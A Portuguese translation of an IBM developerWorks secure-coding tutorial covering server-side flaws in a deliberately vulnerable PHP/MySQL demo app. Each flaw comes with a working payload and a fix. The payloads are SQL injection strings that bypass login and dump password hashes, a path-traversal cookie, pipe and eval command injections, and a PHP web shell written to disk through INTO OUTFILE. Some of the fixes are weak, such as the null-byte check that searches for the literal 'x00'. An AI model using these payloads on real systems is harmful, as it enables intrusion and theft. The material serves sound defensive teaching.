

Muitos desenvolvedores web consideram a segurança como uma prioridade baixa. Frequentemente, ela é relegada ao final do ciclo de vida do desenvolvimento de software, como se fosse apenas algo um pouco mais importante que um assunto de última hora.

  

Às vezes, a segurança de software é totalmente negligenciada, o que tem como resultado aplicativos cheios de vulnerabilidades comuns. Como os erros desse tipo talvez só se manifestem sob as condições presentes durante um ataque, podem ser difíceis de detectar antes desses eventos sem o conhecimento de como o processo de utilização funciona.

  

Vamos continuar o assunto que iniciamos [no último artigo](http://imasters.com.br/artigo/21882/jquery/melhore-a-seguranca-dos-aplicativos-web-com-o-jquery-mobile-parte-01), usando um aplicativo web desenvolvido com jQuery Mobile, PHP e MySQL. Veremos quantos tipos de vulnerabilidades ocorrem, bem como métodos comuns de utilização e, o que é mais importante, suas respectivas contramedidas. Hoje começaremos a falar sobre o lado do servidor.

  

#### Controle de acesso quebrado

  

Frequentemente, os problemas de controle de acesso são negligenciados porque, na maioria dos casos, o controle de acesso não pode ser testado facilmente por meio de utilitários automatizados. A quebra do controle de acesso do aplicativo ocorre quando usuários não autenticados ou não autorizados podem acessar recursos para os quais não deveriam ter permissão. Esse problema acontece frequentemente quando os desenvolvedores tentam proteger recursos destinados aos usuários autorizados ocultando URLs dos usuários não privilegiados. A pressuposição de que somente isso protege um recurso é falsa; um invasor pode, mesmo assim, descobrir a URL por meio de outros meios, como a inferência. Além disso, os usuários que perdem os privilégios podem, mesmo assim, ser capazes de acessar recursos não autorizados com URLs que eles salvaram.

  

**Utilização**

  

O CMA tem duas vulnerabilidades relacionadas ao controle de acesso: desvio de autenticação e aumento de privilégios. O erro de autenticação vem do ato de não terminar a execução ao descobrir que o usuário não foi autenticado. A tentativa de realizar uma ação proibida (consulte a Listagem 13) em um navegador tem como resultado um comportamento aparentemente esperado: o navegador é redirecionado para a página de login.

  

*Listagem 13. Uma solicitação não autenticada referente a recursos privilegiados*

  

```
 POST http://localhost/CMA/insecure/preferences.php HTTP/1.1  
 Host: localhost  
 Connection: keep-alive  
 Content-Length: 107  
 Cache-Control: max-age=0  
 Origin: null  
 User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US) AppleWebKit/534.16   
  (KHTML, like Gecko) Chrome/10.0.648.151 Safari/534.16  
 Content-Type: application/x-www-form-urlencoded  
 Accept: application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8  
  ,image/png,*/*;q=0.5  
 Accept-Encoding: gzip,deflate,sdch  
 Accept-Language: en-US,en;q=0.8  
 Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3  
   
 firstname=John&lastname=Doe&newpassword1=new_password&newpassword2  
 =new_password&userid=2&imagecompression=5
```

  

Como a Listagem 14 mostra, a análise do tráfego com um proxy de depurador da Web, como o Fiddler, revela que há muito mais coisas acontecendo:

  

*Listagem 14. Um trecho da resposta que mostra que o intérprete não terminou a execução adequadamente*

  

```
 HTTP/1.1 302 Found  
 Date: Sat, 19 Mar 2011 23:14:44 GMT  
 Server: Apache/2.2.14 (Win32) DAV/2 mod_ssl/2.2.14 OpenSSL/0.9.8l   
  mod_autoindex_color PHP/5.3.1 mod_apreq2-20090110/2.7.1 mod_perl/2.0.4 Perl/v5.10.1  
 X-Powered-By: PHP/5.3.1  
 Expires: Thu, 19 Nov 1981 08:52:00 GMT  
 Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0  
 Pragma: no-cache  
 Location: login.php  
 Content-Length: 1138  
 Keep-Alive: timeout=5, max=100  
 Connection: Keep-Alive  
 Content-Type: text/html  
   
 <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"  
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">  
 <html xmlns="http://www.w3.org/1999/xhtml" >  
 <head>  
 ...
```

  

Embora o servidor tenha respondido com um código de status 302, o corpo da resposta contém tudo o que um usuário autenticado recebe. Além disso, a mudança de senha foi bem-sucedida e a conta atacada foi comprometida.

  

Além da vulnerabilidade de desvio da autenticação, o CMA contém outro problema de controle de acesso: o aumento de privilégios. Sempre que um usuário atualiza o seu perfil, o Id da conta do usuário — armazenado em um campo oculto do formulário, como se mostra aqui — é enviado juntamente com o formulário:  
<input type="hidden" name="userid" id="userid" value="2" />

  

Quando o formulário é postado de volta no servidor, não é realizada nenhuma validação para confirmar que o Id enviado é o do usuário atual real, antes do uso do valor para carregar o registro a partir do banco de dados. Um usuário mal intencionado pode usar ferramentas de desenvolvimento da Web baseadas em navegador para alterar o valor do campo oculto antes de enviar o formulário ou alterar a solicitação usando um proxy de depuração da Web para especificar um Id arbitrário, permitindo que o usuário mal intencionado faça alterações em contas de usuário que não são dele.

  

**Impeça a quebra do controle de acesso**

  

Para impedir o desvio de autenticação, certifique-se de que a execução da lógica do seu aplicativo protegido não ocorra se a verificação autenticação ou autorização falhar. No PHP, é importante lembrar que a definição do campo Location da resposta usando a função de cabeçalho não termina a execução. A Listagem 15 mostra o código de autorização que faz isso adequadamente.

  

*Listagem 15. Código de autorização melhorado*

  

```
 <?php  
   
 if (!isset($_SESSION["CurrentUser"]) || $_SESSION["CurrentUser"] == NULL)  
 {  
  header("Location: login.php");  
   
  exit;  
 }  
   
 ?>
```

  

Caso se determine que o usuário não está autorizado, a função exit é chamada depois que o cabeçalho Location é definido. Essa etapa impede a execução do restante do script.

  

Para eliminar o aumento de privilégios, certifique-se de que a autorização adequada seja executada para todas as ações privilegiadas. Evite armazenar dados no lado do cliente quando podem ser armazenados no lado do servidor. O ID do usuário na Listagem 15 é um bom exemplo de dados que podem ser armazenados na sessão. Parte da correção é mostrada aqui:  
$update .= "WHERE Id = $\_SESSION[userid]";

  

A próxima é a injeção de SQL, uma vulnerabilidade bastante conhecida com uma ampla variedade de consequências possíveis.

  

#### Injeção de SQL

  

Apesar de ser cada vez mais conhecida, a injeção de SQL continua sendo um problema. As consequências de uma injeção de SQL bem-sucedida variam de acordo com a vulnerabilidade. Estas são algumas das ameaças que podem ser introduzidas:

  

Divulgação de dados

  

Modificação dos dados já existentes

  

Inserção de novos dados

  

Acesso arbitrário ao sistema de arquivos

  

Acesso arbitrário à rede

  

Comprometimento do sistema

**Utilização**

  

Todas as consultas no CMA são vulneráveis à injeção de SQL — portanto, você trabalhará com vários vetores de entrada. Ao injetar uma condição e colocar comentários no restante da consulta por meio da autenticação de nome de usuário, pode-se desviar da autenticação. A Listagem 16 mostra a consulta da forma que deveria ser.

  

*Listagem 16. A instrução select quando John e Password1 são enviados como credenciais de usuário*

  

```
 SELECT COUNT(*) FROM UserAccount   
 WHERE Username = 'John' AND Password = md5('Password1');
```

  

A Listagem 17 mostra como fica a instrução quando uma cadeia de caractere mal intencionada é usada para injetar código na primeira condição.

  

*Listagem 17. Uma instrução select quando 'or 1=1;# e uma senha vazia são enviados como credenciais*

  

```
 SELECT COUNT(*) FROM UserAccount   
 WHERE Username = ''or 1=1;#' AND Password = md5('');
```

  

Como 1 é sempre igual a 1 e a condição de verificação de senha é comentada pelo caractere de sustenido (#), a consulta da Listagem 17 retorna a contagem de todos os registros da tabela UserAccount. Se a contagem não é zero, o valor de retorno da função Authenticate é avaliado como true, dando acesso ao invasor.

  

A funcionalidade de busca de usuários é vulnerável de uma forma que pode ser utilizada para extrair dados arbitrários, entre outras coisas. A Listagem 18 mostra a consulta de busca da forma que ela deveria funcionar.

  

*Listagem 18. A consulta de busca de usuários sob condições normais*

  

```
 SELECT FirstName, LastName FROM UserAccount   
 WHERE FirstName LIKE '%John%' OR LastName LIKE '%John%';
```

  

Usando o operador UNION, os invasores podem anexar uma consulta totalmente nova para recuperar os dados que eles escolherem:  
'and 1=0 UNION SELECT Username, Password FROM UserAccount;#

  

A Listagem 19 mostra a consulta gerada dinamicamente depois do envio da cadeia de caractere de ataque.

  

*Listagem 19. A consulta de busca de usuários depois da injeção de SQL*

  

```
 SELECT FirstName, LastName FROM UserAccount   
 WHERE FirstName LIKE '%'and 1=0 UNION SELECT Username,   
 Password FROM UserAccount;#%' OR LastName LIKE '%'and 1=0   
 UNION SELECT Username, Password FROM UserAccount;#'";
```

  

O ataque dá o resumo dos nomes de usuário e senha de todos os usuários do banco de dados (veja a Figura 5).

  

*Figura 5. O resultado de uma injeção bem-sucedida usando o operador UNION*

  



  

**Impeça a injeção de SQL**

  

Para impedir a injeção de SQL, você deve escapar e validar adequadamente todas as entradas enviadas pelo usuário. A maioria das APIs de desenvolvimento da Web vem com funções para fazer isso. No PHP e MySQL, use consultas parametrizadas juntamente com mysql\_real\_escape\_string para os valores de cadeia de caractere, para proteger contra vários ataques (consulte a Listagem 20).

  

*Listagem 20. Código de autenticação atualizado utilizando as medidas preventivas oferecidas pela API do PHP*

  

```
 $query = sprintf("SELECT COUNT(*) FROM useraccount " .   
  "WHERE Username = '%s' AND " .   
  "Password = md5('%s');",  
  mysql_real_escape_string($Username),  
  mysql_real_escape_string($Password));
```

  

Como a Listagem 21 mostra, o desvio da autenticação não funciona mais devido ao escape do delimitador no início da cadeia de caractere de ataque.

  

*Listagem 21. Uma tentativa de injeção com a nova correção estabelecida*

  

```
 SELECT COUNT(*) FROM useraccount   
 WHERE Username = ''or 1=1;#' AND Password = md5('');
```

  

É importante usar o especificador de tipo correto na cadeia de caractere de formato. A conversão para o tipo esperado fornece uma camada adicional de proteção (consulte a Listagem 22).

  

*Listagem 22. Criando uma consulta com segurança por meio de um inteiro não confiável*

  

```
 $query = sprintf("SELECT * FROM useraccount WHERE Id = %d", (int)$_GET['id']);
```

  

A seção subsequente trata da inclusão de arquivos, um tipo de erro que é comum em aplicativos web em PHP.

  

#### Inclusão de arquivos

  

Há dois tipos de inclusão de arquivos: remota e local. Como o próprio nome indica, esse tipo de vulnerabilidade permite que o invasor inclua um arquivo arbitrariamente. O resultado pode ser a divulgação do conteúdo do arquivo ou a execução como código, dependendo da natureza da utilização. No PHP, a inclusão de arquivos remotos geralmente não é possível se allow\_url\_fopen está desabilitado no arquivo php.ini.

  

**Utilização**

  

O cookie de idioma no CMA é vulnerável à inclusão de arquivo local e, se o servidor está configurado para permitir a abertura de URLs, à inclusão de arquivos remotos. Ao passar uma série de sequências de travessias juntamente com uma pasta e um arquivo fora da webroot, seguidas por um byte nulo para terminar a cadeia de caractere, é possível incluir arquivos arbitrários. A Listagem 23 mostra uma solicitação mal intencionada que inclui o arquivo win.ini.

  

*Listagem 23. Uma solicitação mal intencionada que tenta recuperar o arquivo win.ini do servidor*

  

```
 GET http://localhost/cma/insecure/index.php HTTP/1.1  
 Host: localhost  
 Connection: keep-alive  
 Referer: http://localhost/cma/insecure/index.html  
 User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US) AppleWebKit/534.16 (KHTML,  
  like Gecko) Chrome/10.0.648.151 Safari/534.16  
 Accept: application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,  
  image/png,*/*;q=0.5  
 Accept-Encoding: gzip,deflate,sdch  
 Accept-Language: en-US,en;q=0.8  
 Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3  
 Cookie: language=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2fwin.ini%00
```

  

A Listagem 24 mostra a resposta do servidor.

  

*Listagem 24. A resposta do servidor, que mostra um ataque bem-sucedido*

  

```
 HTTP/1.1 200 OK  
 Date: Sun, 20 Mar 2011 20:59:41 GMT  
 Server: Apache/2.2.14 (Win32) DAV/2 mod_ssl/2.2.14 OpenSSL/0.9.8l   
 mod_autoindex_color PHP/5.3.1 mod_apreq2-20090110/2.7.1 mod_perl/2.0.4 Perl/v5.10.1  
 X-Powered-By: PHP/5.3.1  
 Set-Cookie: PHPSESSID=39q2aarl86t01j697vrb6ekjf2; path=/  
 Expires: Thu, 19 Nov 1981 08:52:00 GMT  
 Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0  
 Pragma: no-cache  
 Content-Length: 6142  
 Keep-Alive: timeout=5, max=100  
 Connection: Keep-Alive  
 Content-Type: text/html  
   
 ; for 16-bit app support  
 [fonts]  
 [extensions]  
 [mci extensions]  
 [files]  
 [Mail]  
 MAPI=1  
 [MCI Extensions.BAK]  
 m2v=MPEGVideo  
 mod=MPEGVideo  
 [Trimmed]
```

  

Observe que o byte nulo que envenenava os caminhos não funciona mais no PHP 5.3.4. Entretanto, em alguns casos, ele não é necessário — portanto, não considere isso, isoladamente, como a correção das vulnerabilidades de inclusão de arquivos.

  

Além da divulgação de arquivos arbitrários, às vezes a inclusão de arquivos pode ser usada para enganar o servidor, fazendo-o interpretar tipos de arquivo arbitrários (como jpgs) como código.

  

**Impeça a inclusão de arquivos**

  

Se possível, evite passar a entrada do usuário para qualquer tipo de função que leia ou inclua arquivos. Se não for possível evitar essa abordagem, tente adotar a abordagem de lista branca à validação dos dados, como se faz na [A Listagem 25](http://www.ibm.com/developerworks/br/xml/tutorials/x-jquerymobilesecuritytut/section7.html#list25). Se o número de valores válidos for alto demais para uma lista branca, verifique se há sequências de travessia ou bytes nulos e rejeite a solicitação (não tente higienizá-la). Certifique-se de que o servidor anexe a extensão do nome de arquivo enviado pelo usuário.

  

*Listagem 25. Código atualizado de seleção de idioma que bloqueia ataques de inclusão de arquivos*

  

```
 $languages = array( "en-us", "en-ca");if (isset($_COOKIE['language']))  
 { if (in_array($_COOKIE['language'], $languages)   
 require_once($_COOKIE['language'] . ".php");  
 else  
 die("Invalid language.");}
```

  

Como o código atualizado só permite os valores de cookie contidos no array de idiomas, os usuários não conseguem mais utilizar a funcionalidade de seleção de idioma para incluir arquivos arbitrários.

  

Embora a inclusão de arquivos locais seja uma ameaça séria, as consequências do ataque descrito nas seções a seguir podem ser ainda mais graves.

  

#### Injeção de comandos de OS

  

Como é de se esperar, a injeção de comandos de OS é uma ameaça muito séria. Se a entrada do usuário é passada para uma função que executa comandos do sistema operacional, tome o cuidado de garantir que o escape dos dados seja adequado.

  

**Utilização**

  

A compressão da imagem simulada da funcionalidade de preferências do usuário é vulnerável à injeção de comandos de OS. É possível injetar comandos passando o caractere de barra vertical (|) seguido por um comando mal intencionado usando os dados de compressão de imagem no corpo da solicitação (consulte a Listagem 26).

  

*Listagem 26. O corpo de uma solicitação mal intencionada*

  

```
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs  
 Content-Disposition: form-data; name="firstname"  
   
 John  
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs  
 Content-Disposition: form-data; name="lastname"  
   
 Doe  
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs  
 Content-Disposition: form-data; name="newpassword1"  
   
   
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs  
 Content-Disposition: form-data; name="newpassword2"  
   
   
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs  
 Content-Disposition: form-data; name="picture"; filename="x.txt"  
 Content-Type: text/plain  
   
   
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs  
 Content-Disposition: form-data; name="userid"  
   
 2  
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs  
 Content-Disposition: form-data; name="imagecompression"  
   
 5|calc  
 ------WebKitFormBoundaryFnGBYVe08wA8NMrs-
```

  

O valor passado para a função do sistema é mostrado aqui:  
ping "C:toolsxampptmpphp7533.tmp" 5|calc

  

**Impeça a injeção de comandos de OS**

  

Evite passar a entrada do usuário para funções que executam comandos de OS. Geralmente é possível usar funções de API mais seguras para obter um resultado semelhante. Se não é possível adotar uma abordagem mais segura e há necessidade de usar dados não confiáveis para criar argumentos de linha de comando, certifique-se de que o escape dos dados seja realizado adequadamente. A API do PHP fornece uma função para realizar o escape de caracteres perigosos, chamada escapeshellcmd. A Listagem 27 mostra o código corrigido de preferência do usuário.

  

*Listagem 27. Uso de escapeshellcmd para "limpar" a entrada do usuário*

  

```
 $compress_command = "ping $image " .  
  escapeshellcmd($_REQUEST["imagecompression"]);
```

  

Ao passar a entrada de usuário para escapeshellcmd antes de passá-la para o sistema, caracteres mal intencionados — como a barra vertical — podem ser higienizados.

  

A próxima vulnerabilidade frequentemente tem um resultado semelhante ao da injeção de comandos de OS.

  

#### Injeção de linguagem de script

  

A vulnerabilidade de injeção de linguagem de script está presente quando a entrada do usuário é interpretada como código. Em muitos casos, isso leva ao comprometimento do servidor, já que o invasor consegue executar o código dentro do contexto de segurança do processo do intérprete.

  

**Utilização**

  

Já que os dados enviados pelo usuário são passados para a função eval , a funcionalidade da calculadora do CMA é vulnerável à injeção de linguagem de script. As entradas X e Y podem ser usadas para executar um código arbitrário mas, como são do tipo número, é necessário desviar das restrições no lado do cliente. Esse desvio pode ser realizado por meio de um proxy de depuração da Web:

  

```
 /CMA/insecure/calculator.php?x=1&y=1;system(%22calc%22)&operation=operation-add
```

  

Ou pela criação manual da cadeia de caractere de consulta:

  

```
 /CMA/insecure/calculator.php?x=1;system(%22calc%22);//&y=1&operation=operation-add
```

  

Os efeitos dos ataques de injeção de script sobre o código avaliado são:  
echo 1 + 1;system("calc"); e aqui: echo 1;system("calc");// + 1;

  

**Impeça a injeção de linguagem de script**

  

Evite avaliar a entrada do usuário como entrada. Geralmente, pode-se criar uma funcionalidade relevante usando funções de API mais seguras (essa é a abordagem adotada na [Listagem 28](http://www.ibm.com/developerworks/br/xml/tutorials/x-jquerymobilesecuritytut/section9.html#list28)). Se não for possível evitar isso, aplique uma validação rigorosa (se possível, lista branca) e rejeite qualquer entrada que não seja considerada segura. Não tente higienizar a entrada do usuário.

  

*Listagem 28. Lógica da calculadora reescrita*

  

```
 <?php  
   
 $x = $_GET["x"];  
 $y = $_GET["y"];  
   
 $operation = $_GET["operation"] == "operation-add" ?  
  "+" : "-";  
   
 // Patched reflected XSS vulnerability  
 $arithmetic = htmlentities("$x $operation $y");  
   
 echo $arithmetic . " = ";  
   
 if ($operation == "+")  
  echo $x + $y;  
 else  
  echo $x - $y;  
   
 ?>
```

  

Como eval é evitado no código atualizado, o código está protegido contra a injeção de linguagem de script.

  

Veremos agora como a criação de arquivos arbitrários pode ser utilizada para produzir um efeito semelhante.

  

#### Criação de arquivos arbitrários

  

Em muitos casos, o resultado da criação de arquivos arbitrários é semelhante ao da injeção de linguagem de script; um invasor pode criar um arquivo com a extensão adequada e, em seguida, acessá-lo para executar o código arbitrário. O invasor pode fazer isso de várias formas, e você deve ter cuidado ao trabalhar com qualquer funcionalidade que possa ser aproveitada para criar arquivos. Em algumas situações, essa funcionalidade pode ser combinada a outras vulnerabilidades, como a travessia de diretórios, permitindo que o invasor cause mais danos.

  

*Utilização*

  

Uma forma de criar um arquivo arbitrário é usar o recurso de upload de foto de perfil das preferências do usuário para fazer o upload de um arquivo PHP e não uma imagem. Um script simples pode fornecer um shell remoto:  
<?php system($\_GET["CMD"]); ?>.

  

Depois do upload, um invasor pode acessar o script para executar comandos do OS com facilidade:  
<http://localhost/CMA/insecure/images/shell.php?CMD=calc>

  

Dependendo da presença (ou não) de uma vulnerabilidade adequada de injeção SQL e da configuração do servidor, pode haver a possibilidade de aproveitar o SQL para criar um novo script. Dependendo das permissões do SQL server, pode ser possível utilizar a travessia de diretórios para sobrescrever arquivos críticos de sistema, comprometendo efetivamente o servidor:  
SELECT '<?php system($\_GET["CMD"]); ?>' FROM dual INTO OUTFILE '../../htdocs/shell.php'

  

A primeira coluna da consulta deve parecer familiar; na verdade, é um literal de cadeia de caractere que contém o arquivo mal intencionado em Criação de arquivos arbitrários (consulte a Listagem 29).

  

*Listagem 29. O shell que cria consulta injetado no CMA usando o operador UNION*

  

```
 http://localhost/CMA/insecure/search.php?query='and%201=0%20UNION%20SELECT  
 %20'%3C?php%20system($_GET[%22CMD%22]);%20?%3E',''%20FROM%20dual%20INTO%20OUTFILE  
 %20'../../htdocs/shell.php';%23
```

  

É possível descobrir caminhos que podem ser alvo desse tipo de ataque por meio de tentativa e erro ou aproveitando uma vulnerabilidade de vazamento de informações (não abordada neste tutorial) que revela o caminho absoluto da raiz do documento.

  

**Impeça a criação de arquivos arbitrários**

  

Se possível, realize a validação de lista branca nas extensões de quaisquer arquivos que os usuários possam criar. Essa abordagem é a abordagem usada para corrigir o CMA, mostrada na [Listagem 30](http://www.ibm.com/developerworks/br/xml/tutorials/x-jquerymobilesecuritytut/section10.html#list30) e na [Listagem 31](http://www.ibm.com/developerworks/br/xml/tutorials/x-jquerymobilesecuritytut/section10.html#list31). Se não for possível implementar uma correção semelhante, use a validação de lista negra para garantir que não sejam permitidas extensões mal intencionadas. Para o Apache e o PHP, essa abordagem significa rejeitar várias extensões, como PHP, PHTML e HTACCESS. Se a entrada é considerada mal intencionada, rejeite-a; não tente higienizar dados questionáveis.

  

**Listagem 30. Uma função de ajuda usada para procurar o envenenamento por byte nulo**

  

```
 function IsNullPoisoned($string)  
 {  
  return strpos($string, "x00") != NULL;   
 }  
   
 function IsValidImageExtension($file)  
 {  
  $validExtensions = array(  
  "jpg",  
  "png",  
  "gif"  
  );  
   
  if (IsNullPoisoned($file))   
  return FALSE;  
   
  $ext = pathinfo($file, PATHINFO_EXTENSION);  
   
  return in_array($ext, $validExtensions);   
 }
```

  

A função IsNullPoisoned verifica a cadeia de caractere procurando bytes nulos e retorna true se a posição não é nula, ao passo que a função IsValidImageExtension verifica para garantir que o nome de arquivo não esteja envenenado por nulo e que a sua extensão esteja na lista branca.

  

*Listagem 31. A funcionalidade de foto do usuário do CMA com a validação da extensão de arquivos incluída*

  

```
 if (!IsValidImageExtension($_FILES["picture"]["name"]))  
  die("Error uploading image.");
```

  

Para impedir ataques, o nome do arquivo enviado pelo usuário é passado para a função IsValidImageExtension e, caso retorne false, o script é terminado.

  

No PHP, eu recomendo evitar filtros de extensão baseados em expressões regulares. A Listagem 32 mostra uma função de validação da qual se pode desviar.

  

*Listagem 32. Validação de extensão sem segurança*

  

```
 function IsValidImageExtension($file)  
 {  
  return preg_match('/.(jpg|png|gif)$/i', $file);   
 }
```

  

A implementação na Listagem 32 impede alguns ataques, mas a função preg\_match pode ser suscetível ao envenenamento por byte nulo: test.php%00test.jpg.

  

Como a Listagem 33 mostra contramedidas para isso mas, devido à maior complexidade, evite esse caminho.

  

*Listagem 33. Validação baseada em expressão regular corrigida*

  

```
 function IsValidImageExtension($file)  
  {  
  return !IsNullPoisoned($file) && preg_match('/.(jpg|png|gif)$/i', $file);  
  }
```

  

Verifique o nome do arquivo em relação ao envenenamento por byte nulo antes de usar preg\_match para impedir que o invasor injete o caractere de término de cadeia de caractere.

  

Certifique-se de que todas as vulnerabilidades de injeção de SQL sejam corrigidas para impedir que os invasores usem a funcionalidade de servidor de banco de dados para manipular o sistema de arquivos. Se o aplicativo não precisa dessa funcionalidade, considere a possibilidade de desabilitar os recursos que usam privilégios de banco de dados. Se possível, execute o servidor de banco de dados em um servidor separado do servidor de HTTP.

  

Para ter uma camada extra de segurança, armazene arquivos carregados pelo usuário fora da raiz do documento ou proíba o acesso para os usuários usando recursos do servidor da Web caso o acesso direto seja desnecessário. Se um invasor consegue se desviar dos filtros de extensão de arquivo, essa abordagem dificulta o acesso e a execução do script mal intencionado. Não dê ao cliente o controle da pasta de destino de upload; do contrário, um invasor pode usar a travessia de diretório (abordada anteriormente neste tutorial) para armazenar o arquivo em um diretório sem proteção.

  

#### Recursos

  

Este artigo não se propôs a ser completo. Na verdade, não existe nenhuma fonte completa, devido às constantes mudanças no panorama da segurança de software. A melhor proteção contra invasores em constante evolução é permanecer atualizado, lendo regularmente sobre novas ameaças à segurança. Veja abaixo várias fontes excelentes que examinam com profundidade o motivo das vulnerabilidades e o que pode ser feito para evitá-las.

  

E lembre-se: da mesma forma que não é possível dizer que um sistema está livre de erros, não é possível considerá-lo totalmente seguro.

  

**Download**

  

Descrição

  

Nome

  

Tamanho

  

Método de download

  

Tutorial source code

  

CMA-Source.zip

  

9KB

  

[HTTP](http://www.ibm.com/developerworks/apps/download/index.jsp?contentid=697169&amp;filename=CMA-Source.zip&amp;method=http&amp;locale=pt_BR)

[Informações sobre métodos de download](http://www.ibm.com/developerworks/library/whichmethod.html)

  

**Aprender**

  

[Locking down your PHP applications](http://www.ibm.com/developerworks/opensource/tutorials/os-php-lockdown/index.html) (Thomas Myer, developerWorks, maio de 2006): saiba mais sobre a proteção dos seus aplicativos de PHP e proteja-se contra as ameaças mais comuns à segurança: injeções de SQL, manipulação das variáveis GET e POST, ataques de estouro de buffer, ataques de script de sites cruzados, manipulação de dados dentro do navegador e postagem de formulários remotos.

  

[Sete Hábitos para Escrever Aplicativos PHP Seguros](http://www.ibm.com/developerworks/opensource/library/os-php-secure-apps/index.html) (Nathan Good, developerWorks, setembro de 2008): aumente a segurança do seu aplicativo da Web com outro bom artigo sobre a melhora da segurança dos aplicativos em PHP.

  

[Overcome security threats for Ajax applications](http://www.ibm.com/developerworks/library/x-ajaxsecurity.html) (Sachiko Yoshihama, Frederik De Keukelaere, Michael Steiner, Naohiko Uramoto; developerWorks, junho de 2007): saiba mais sobre ataques no lado do cliente e como evitar alguns dos ataques mais comuns.

  

[Packet Storm](http://packetstormsecurity.org/): explore uma fonte excelente de utilizações, relatórios e ferramentas antigas e novas.

  

[The Web Application Hacker's Handbook](http://portswigger.net/wahh/) (Dafydd Stuttard and Marcus Pinto, Wiley, outubro de 2007): obtenha uma visão mais ampla da segurança dos aplicativos da Web com esse guia prático para encontrar e utilizar falhas na segurança.

  

[O Open Web Application Security Project (OWASP)](http://www.owasp.org/index.php/Main_Page): encontre várias informações relevantes e ferramentas para melhorar a segurança do software de aplicativo.

  

[Common Vulnerabilities and Exposures (CVE)](http://cve.mitre.org/): explore uma boa fonte de informações sobre vulnerabilidades e exposições da segurança conhecidas publicamente.

  

[Open Source Vulnerability Database](http://osvdb.org/): examine oura fonte pública de informações sobre vulnerabilidade semelhante ao CVE.

  

[jQuery Mobile](http://jquerymobile.com/): visite a página inicial de um sistema unificado de interface do usuário em todas as plataformas bastante difundidas de dispositivos remotos, desenvolvido sobre a base firme do jQuery e jQuery UI.

  

[jQuery Mobile: demos e documentação](http://jquerymobile.com/demos/1.0a2/): acesse artigos, APIs, e código de demo para essa estrutura da Web otimizada para toque, para smartphones e tablets.

  

[jQuery.org](http://jquery.org/): visite a página inicial da equipe de software livre do jQuery.

  

[Mobile Design and Development](http://oreilly.com/catalog/9780596155445/) (Brian Fling, O'Reilly Media, agosto de 2009): explore diretrizes práticas, padrões, técnicas e boas práticas para desenvolver produtos remotos.

  

[Área de XML do developerWorks](http://www.ibm.com/developerworks/xml): Obtenha os recursos necessários para melhorar suas qualificações na esfera de XML.

  

[Eventos técnicos e webcasts do developerWorks](http://www.ibm.com/developerworks/offers/techbriefings/): Mantenha-se atualizado em relação à tecnologia nessas sessões.

  

[DeveloperWorks no Twitter](http://twitter.com/developerworks/): Inscreva-se hoje para seguir os tweets do developerWorks.

  

[Podcasts do developerWorks](http://www.ibm.com/developerworks/podcast/): Ouça entrevistas e discussões interessantes para desenvolvedores de software.

  

[Demos on demand do developerWorks](http://www.ibm.com/developerworks/offers/lp/demos/): Acompanhe demos que abrangem desde a instalação de produto e configuração para iniciantes até funcionalidade avançada para desenvolvedores experientes.

**Obter produtos e tecnologias**

  

O [jQuery Mobile CDN](http://jquerymobile.com/download/): obtenha o jQuery Mobile rapidamente com versões já reduzidas e comprimidas do jQuery Mobile.

  

[MAMP: Mac - Apache - MySQL - PHP](http://www.mamp.info/en/index.html): obtenha e instale um ambiente de servidor local do Apache, MySQL & PHP baseado em Mac.

  

[XAMPP](http://sourceforge.net/projects/xampp/): obtenha um Apache Distribution para Linux®, Solaris, Windows e Mac OS X. O pacote inclui o Apache Web Server, MySQL, PHP, Perl, um servidor de FTP e phpMyAdmin.

  

[Fiddler](http://www.fiddler2.com/fiddler2/): faça o download e experimente um proxy de depuração na Web que registra todo o tráfego de HTTP(S) entre o seu computador e a Internet.

  

[Versões de avaliação de produtos IBM](http://www.ibm.com/developerworks/downloads/) : Faça o download ou [explore as versões de teste on-line no IBM SOA Sandbox](http://www.ibm.com/developerworks/downloads/soasandbox/) e entre em contato com as ferramentas de desenvolvimento de aplicativos e produtos de middleware do DB2 ®, Lotus®, Rational®, Tivoli®e WebSphere®.

**Discutir**

  

O [jQuery Mobile Forum](http://forum.jquery.com/jquery-mobile): obtenha as respostas de todas as suas perguntas sobre o jQuery Mobile.

  

[Fóruns de discussão da zona de XML](http://www.ibm.com/developerworks/forums/dw_xforums.jsp): Participe de qualquer uma das várias discussões relacionadas a XML.

  

A [comunidade do developerWorks](http://www.ibm.com/developerworks/community): Entre em contato com outros usuários do developerWorks e explore os blogs, fóruns, grupos e wikis voltados para desenvolvedores.

\*

  

*Artigo originalmente publicado em IBM developerWorks <http://www.ibm.com/developerworks/br/xml/tutorials/x-jquerymobilesecuritytut/index.html>*

  

*Autor: John Leitch - consultor independente de segurança de aplicativos. Mora em Grand Rapids, Michigan. Trabalha principalmente com aplicativos da Web e é especialista em teste de imprecisão, análise dinâmica e revisão de código. Sempre à caça de erros, ele lança frequentemente relatórios sobre vulnerabilidade.*

  
[anexo ausente]  
  

[](http://share.feedsportal.com/viral/sendEmail.cfm?lang=pt&amp;title=Melhore+a+seguran%C3%A7a+dos+aplicativos+web+com+o+jQuery+Mobile+-+Parte+02&amp;link=http%3A%2F%2Fimasters.com.br%2Fartigo%2F21883%2Fjquery%2Fmelhore-a-seguranca-dos-aplicativos-web-com-o-jquery-mobile-parte-02)

  

